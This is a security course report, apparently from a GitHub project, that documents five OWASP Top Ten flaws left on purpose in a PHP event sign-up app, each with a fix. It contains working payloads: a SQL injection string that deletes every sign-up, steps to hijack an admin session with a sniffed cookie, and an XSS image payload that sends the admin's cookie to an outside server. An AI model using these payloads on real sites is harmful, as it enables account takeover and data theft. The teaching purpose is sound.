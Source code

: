 # The Report

This project is done with PHP in a LAMP environment.<br> 
The requirements:

1. Windows, OS X or Linux as the host
2. OWASP ZAP
3. Firefox and the Advanced Cookie Manager add-on
4. VirtualBox
5. Debian as a virtual machine

See https://github.com/j0ly/firstproject/blob/master/README.md for installation instructions.

There are more problems with this code besides those which I have mentioned and provided a fix for here below. And regarding the suggested fixes, I know that there are many things that could be done to further improve the security. But I had to draw the line somewhere. The task was to have at least 5 OWASP Top Ten vulnerabilies, and to provide a fix for them, which I think I have done.


The OWASP vulnerabilities:

## A1-Injection

The content of the database can be deleted using SQL injection.

### How to identify 
1. Sign up some users to the event. Check from the Admin page. 
2. Then go to the Cancel page and enter: ```' OR '1'='1```. 
3. All the sign-ups are now gone, as you can see from the Admin page!    

### How to fix
Add this after line 12 in delete.php;

```$ticket = mysqli_real_escape_string($conn, $ticket);```

## A2-Broken Authentication and Session Management
The cookie-session-id, which is used for authentication, is sent over an unencrypted connection.<br>

### How to identify
You can get access to the Admin page using the stolen cookie-session-id like this (but before you begin, install the “Advanced Cookie Manager” add-on to Firefox):

1. Log in to the Admin pages, look who have signed-up, and click the "home" link.
2. You are now back at the starting page, which doesn't use SSL.
3. But with OWASP ZAP you can see that the session-cookie is still in use, and the session-id thus visible if someone would have the possibility to eavesdrop. Copy the session-id (see [README.md](README.md))!
  * If you were using the Firefox browser for this, restart it before the next step...
4. Go to the Admin login-page with Firefox, but don’t log in! 
5. Open “Advanced Cookie Manager” and enter the cookie-session-id you captured with OWASP ZAP into the "Value" box (see [README.md](README.md)), replacing the existing one (delete first, then paste). Save the change.
6. Open the Event X start page, click the "Admin" link, and you’re in without entering credentials!

### How to fix
Force HTTPS for the whole server;

1. In /etc/apache2/sites-available/000-default.conf, add this line after the "DocumentRoot" line (modify "yourserver" to match the IP of your server); 
  * ``` Redirect permanent / https://yourserver/ ``` 
2. Restart Apache with this command; ``` apachectl restart ```

## A3-Cross-Site Scripting (XSS)
The XSS code can be entered on the SignUp page, and executed on the Admin page when listing the sign-ups. 
### How to identify
Enter this code into the address field on the SignUp page;

```<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>```

When the admin logs in and takes a look at the sign-ups, his session-id should be written to the Apache logs of “yourserver”.<br> 
But you can also test with code like this, in any of the fields on the SignUp page; 
```<body onload=alert('hello')>```

### How to fix
In done.php you can find these lines;
```
$fname = $_POST["name"];
$faddress = $_POST["address"];
$creditcard = $_POST["creditcard"];
```
Replace them with these lines;
```
$fname = clean($_POST["name"]);
$faddress = clean($_POST["address"]);
$creditcard = clean($_POST["creditcard"]);

function clean($data) {
  $data = trim($data);
  $data = stripslashes($data);
  $data = htmlspecialchars($data);
  return $data;
}
```

## A6-Sensitive Data Exposure
Credit card numbers are sent in cleartext with POST, over an unencrypted connection.

### How to identify

1. Go to the SignUp page and fill in the requested information, including a (imaginary) credit card number.
2. Press Submit, and capture the credit card number with OWASP ZAP (see [README.md](README.md)).

### How to fix: 
Force HTTPS for the whole server (see the A2-fix)! 

## A7-Missing Function Level Access Control
The database credentials are stored in an easy to guess plaintext config file, inside the web-root, and is lacking access control.
### How to identify
Modify “yourserver” in this link to match your installation; http://yourserver/firstproject/admin/config.ini.<br> 
Then open this link with your browser, and you should see the credentials.

### How to fix
Deny access to the config.ini file. 

There is already a .htaccess file in the admin folder that should do that, but Apache does not by default enable the use of .htaccess files. To enable, do this:

  Open /etc/apache2/apache2.conf in an editor, and find these lines;
  ```
  <Directory /var/www/>
        Options Indexes FollowSymLinks
        AllowOverride None
        Require all granted
  </Directory>
  ```
  Change “AllowOverride None” to “AllowOverride All”. Run the command “apachectl restart”, and try to open the link again.

